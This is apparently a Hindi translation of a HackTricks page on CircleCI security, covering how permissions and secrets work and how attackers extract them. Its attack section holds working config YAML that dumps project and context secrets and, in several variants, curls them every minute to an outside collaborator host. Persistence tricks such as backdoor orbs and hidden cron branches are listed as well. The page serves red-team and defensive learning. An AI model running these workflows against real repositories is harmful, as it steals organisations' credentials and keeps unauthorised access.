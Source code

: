 # सर्कलसीआई सुरक्षा

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मौलिक जानकारी

[**सर्कलसीआई**](https://circleci.com/docs/2.0/about-circleci/) एक सतत एकीकरण प्लेटफॉर्म है जहाँ आप **टेम्पलेट्स को परिभाषित** कर सकते हैं जिससे आप इसे कुछ कोड के साथ क्या करना चाहते हैं और कब करना चाहते हैं वह दिखा सकते हैं। इस तरह आप **टेस्टिंग को स्वचालित** या **डिप्लॉयमेंट** को **अपने रेपो मास्टर ब्रांच से सीधे** कर सकते हैं।

## अनुमतियाँ

**सर्कलसीआई** **गिटहब और बिटबकेट से अनुमतियों को विरासत में लेता है** जो **खाता** लॉग इन करता है।\
मेरे परीक्षण में मैंने यह जांचा कि जब तक आपके पास **गिटहब में रेपो पर लेखन अनुमतियाँ** हैं, तब आपको **सर्कलसीआई में इसकी परियोजना सेटिंग्स को प्रबंधित करने की अनुमति** होगी (नए एसएसएच कुंजियाँ सेट करना, परियोजना एपीआई कुंजियाँ प्राप्त करना, नए सर्कलसीआई कॉन्फ़िग के साथ नए ब्रांच बनाना...).

हालांकि, आपको एक **रेपो व्यवस्थापक** होना चाहिए ताकि आप **रेपो को एक सर्कलसीआई परियोजना में परिवर्तित** कर सकें।

## एनवायरनमेंट वेरिएबल्स और रहस्य

[**दस्तावेज़**](https://circleci.com/docs/2.0/env-vars/) के अनुसार एक वर्कफ़्लो में **मूल्यों को एनवायरनमेंट वेरिएबल्स में लोड करने** के लिए विभिन्न तरीके हैं।

### बिल्ट-इन एनवायरनमेंट वेरिएबल्स

सर्कलसीआई द्वारा चलाए गए प्रत्येक कंटेनर में हमेशा [**दस्तावेज़ में परिभाषित विशिष्ट एनवायरनमेंट वेरिएबल्स**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) जैसे `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` या `CIRCLE_USERNAME` होंगे।

### स्पष्ट पाठ

आप उन्हें स्पष्ट पाठ में एक **कमांड** के भीतर घोषित कर सकते हैं:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
आप उन्हें **रन वातावरण** में स्पष्ट पाठ में घोषित कर सकते हैं:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
आप उन्हें **build-job environment** के भीतर स्पष्ट पाठ में घोषित कर सकते हैं:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
आप उन्हें **एक कंटेनर के वातावरण** में स्पष्ट पाठ में घोषित कर सकते हैं:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### परियोजना रहस्य

ये **रहस्य** हैं जो केवल **परियोजना** (किसी भी शाखा द्वारा) द्वारा **पहुंचे जा सकते हैं**।\
आप इन्हें देख सकते हैं जो **घोषित किए गए हैं** _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
"**आयात चर**" कार्यक्षमता यह संभव बनाती है कि इसमें **अन्य परियोजनाओं से चरों को आयात किया जा सके**।
{% endhint %}

### संदर्भ रहस्य

ये रहस्य हैं जो **संगठन व्यापी** हैं। डिफ़ॉल्ट रूप से किसी भी रेपो को यहाँ संग्रहित किए गए किसी भी रहस्य तक पहुंच होगी:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
हालांकि, ध्यान दें कि सभी सदस्यों की बजाय एक विभिन्न समूह (All members की बजाय) को **चुना जा सकता है ताकि केवल विशिष्ट व्यक्तियों को रहस्यों तक पहुंचने की अनुमति दी जा सके**।\
यह वर्तमान में रहस्यों की सुरक्षा बढ़ाने का एक अच्छा तरीका है, जिससे सभी को पहुंचने की अनुमति न दी जाए बल्कि कुछ लोगों को ही।
{% endhint %}

## हमले

### स्पष्ट पाठ रहस्य खोजें

यदि आपके पास **वीसीएस तक पहुंच** है (जैसे github) तो प्रत्येक रेपो की प्रत्येक शाखा के फ़ाइल `.circleci/config.yml` की जाँच करें और वहाँ संभावित **स्पष्ट पाठ रहस्य** की खोज करें।

### गुप्त चर और संदर्भ गणना

कोड की जाँच करके आप प्रत्येक `.circleci/config.yml` फ़ाइल में उपयोग किए जा रहे **सभी रहस्यों के नाम** पा सकते हैं। आप उन फ़ाइलों से या उन्हें वेब कंसोल में जाँच करके **संदर्भ नाम** भी प्राप्त कर सकते हैं: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_।

### परियोजना रहस्य निकालना

{% hint style="warning" %}
सभी परियोजना और संदर्भ **रहस्य** को **निकालने** के लिए आपको **केवल** पूरे github संगठन में **किसी भी एक रेपो में लिखने की** अनुमति होनी चाहिए (_और आपके खाते को संदर्भों तक पहुंच होनी चाहिए लेकिन डिफ़ॉल्ट रूप से हर कोई हर संदर्भ तक पहुंच सकता है_।)
{% endhint %}

{% hint style="danger" %}
"**आयात चर**" कार्यक्षमता यह संभव बनाती है कि इसमें **अन्य परियोजनाओं से चरों को आयात किया जा सके**। इसलिए, एक हमलावर सभी परियोजना चरों को सभी रेपो से आयात कर सकता है और फिर **उन सभी को एक साथ निकाल सकता है**।
{% endhint %}

सभी परियोजना रहस्य हमेशा नौकरियों के env में सेट किए जाते हैं, इसलिए इन्हें एनवी बुलाना और उसे base64 में अविश्वसनीय बनाना रहस्यों को **वर्कफ़्लो वेब लॉग कंसोल** में निकालेगा:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
यदि आपको **वेब कंसोल तक पहुंचने का अधिकार नहीं है** लेकिन आपके पास **रेपो तक पहुंचने का अधिकार है** और आपको पता है कि CircleCI का उपयोग हो रहा है, तो आप **एक वर्कफ्लो बना सकते हैं** जो **हर मिनट ट्रिगर होता है** और जो **रहस्यों को एक बाह्य पते पर निकालता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### संदर्भ रहस्यों को बाहर ले जाएं

आपको **संदर्भ नाम निर्दिष्ट** करना होगा (यह भी परियोजना के रहस्यों को बाहर ले जाएगा):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
यदि आपको **वेब कंसोल तक पहुंचने का अधिकार नहीं है** लेकिन आपके पास **रेपो तक पहुंचने का अधिकार है** और आपको पता है कि CircleCI का उपयोग हो रहा है, तो आप **बस एक वर्कफ्लो को संशोधित कर सकते हैं** जो **प्रति मिनट ट्रिगर होता है** और जो **रहस्यों को एक बाह्य पते पर निकालता है**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
केवल एक नए `.circleci/config.yml` फ़ाइल रिपो में बनाना **सर्कलसीआई बिल्ड को ट्रिगर करने के लिए पर्याप्त नहीं** है। आपको **सर्कलसीआई कंसोल में एक परियोजना के रूप में इसे सक्षम करने की आवश्यकता है**।
{% endhint %}

### बादल को छोड़ें

**CircleCI** आपको **उनकी मशीनों में या अपनी मशीनों में अपने बिल्ड चलाने का विकल्प देता है**।
डिफ़ॉल्ट रूप से उनकी मशीनें जीसीपी में स्थित हैं, और आप पहले कुछ भी संबंधित नहीं पा सकते। हालांकि, यदि कोई पीड़ित अपने कार्यों को **अपनी मशीनों में चला रहा है (संभावना, एक बादल एनवायरनमें)**, तो आपको एक **बादल मेटाडेटा एंडपॉइंट मिल सकता है जिसमें दिलचस्प जानकारी हो सकती है**।

पिछले उदाहरणों में ध्यान दें कि सब कुछ एक डॉकर कंटेनर के अंदर लॉन्च किया गया था, लेकिन आप यह भी **एक वीएम मशीन लॉन्च करने के लिए कह सकते हैं** (जिसमें विभिन्न बादल अनुमतियाँ हो सकती हैं):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
या फिर एक डॉकर कंटेनर जिसका रिमोट डॉकर सेवा तक पहुंच हो:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Persistence

* **संभव है** कि **सर्कलसीआई में उपयोगकर्ता टोकन बनाया जा सके** ताकि उपयोगकर्ता एक्सेस के साथ API एंडप्विंट्स तक पहुंचा जा सके।
* _https://app.circleci.com/settings/user/tokens_
* **प्रोजेक्ट टोकन बनाना संभव है** ताकि टोकन को दिए गए अनुमतियों के साथ प्रोजेक्ट तक पहुंचा जा सके।
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* **प्रोजेक्ट में SSH कुंजियाँ जोड़ना संभव है**।
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* **एक क्रॉन जॉब बनाना संभव है** एक अप्रत्याशित प्रोजेक्ट में एक छिपी हुई शाखा में जो **प्रतिदिन सभी संदर्भ एनवी वार्स लीक कर रही है**।
* या फिर एक शाखा में बनाना / एक ज्ञात जॉब को संशोधित करना जो **प्रतिदिन सभी संदर्भ और प्रोजेक्ट सीक्रेट्स लीक करेगा**।
* अगर आप एक गिटहब मालिक हैं तो आप **अनसत्यापित ऑर्ब्स की अनुमति दे सकते हैं** और एक जॉब में एक **बैकडोर** के रूप में एक कॉन्फ़िगर कर सकते हैं।
* आप किसी कार्य में **कमांड इंजेक्शन वलनरेबिलिटी** खोज सकते हैं और उसके मान में **कमांड इंजेक्शन** कर सकते हैं एक **रहस्य** के माध्यम से उसके मान को संशोधित करके

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}
